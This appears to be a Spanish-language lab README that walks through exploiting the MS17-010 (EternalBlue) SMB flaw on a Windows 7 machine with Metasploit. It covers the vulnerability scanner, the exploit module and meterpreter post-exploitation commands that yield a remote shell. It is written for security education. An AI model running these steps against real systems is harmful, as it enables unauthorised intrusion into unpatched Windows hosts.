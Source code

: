 Explotación de vulnerabilidad utilizando metasploit
===============
Este laboratorio es para fines educativos y su contenido no debe ser utilizado para fines ilícitos  

**Objetivos**
* Experimentar la explotación de una vulnerabilidad 
* Interactuar con la consola de comandos de comandos de metasploit. 
* Interactuar con la consola de comandos de meterpreter.  

**Requisitos**
* Máquina objetivo: Windows 7 64bits  
* Equipo Auditor: Kali Linux 

**Utilizar un scanner para detercar si el equipo es vulnerable a  MS17-010**
* Desde Kali Linux Inicie una sesión de terminal y escriba los siguientes comandos:
```
msfconsole
```
![alt text](./lab01-images/lab01-fig1-msf-console.png "Metasploit framework")

```
Search ms17_10
```
![alt text](./lab01-images/lab01-fig2-msf-console.PNG "Metasploit framework")
```
use auxiliary/scanner/smb/smb_ms17_010
``` 
```
set RHOSTS “Dirección IP del host windows 7 64bits”
```
```
run
```
![alt text](./lab01-images/lab01-fig3-msf-console.png "Metasploit framework")
**Exploiting**
```
use exploit/windows/smb/ms17_010_eternalblue ```
```
```
show options
``` 
```
set RHOST < Rhost-id > 
```
```
exploit 
```
![alt text](./lab01-images/lab01-fig3-msf-console.png "Metasploit framework")
 
**Post Exploitation**
```bash
Sysinfo
```
![alt text](./lab01-images/lab01-fig5-msf-console.png "Metasploit framework")
```bash
Getuid
```
![alt text](./lab01-images/lab01-fig7-msf-console.png "Metasploit framework")
```Bash
Shell
```
![alt text](./lab01-images/lab01-fig5-msf-console.png "Metasploit framework")

Enlace para mayor información
https://www.metasploit.com/
https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/
https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/